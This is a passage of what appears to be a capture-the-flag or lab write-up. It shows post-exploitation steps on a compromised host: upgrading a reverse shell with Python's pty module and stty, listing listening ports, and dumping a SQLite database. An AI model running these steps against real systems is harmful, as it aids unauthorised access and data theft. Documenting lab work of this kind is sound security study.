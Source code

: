 **Note**: While attempting this, I encountered multiple errors where the expected Bash error messages did not appear, and the command in step 5.3 failed to execute. To troubleshoot, I changed the directory name to something different and retried the steps from 5.1 onward until I achieved the expected result. This helped verify whether my commands were working correctly.

## Dumping the Database
On the **reverse shell**:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
**Upgrade shell**:
1. Suspend the ongoing shell: `Ctrl + Z`
2. Run on your local terminal:
```
stty raw -echo; fg
```
3 After shell is upgraded, check open ports:
```
ss -lntp
```
![Running ports](./images/14.png)
4. Dump database with SQLite:
```
sqlite3 database.db .dump
```
![Database1](./images/15.png)
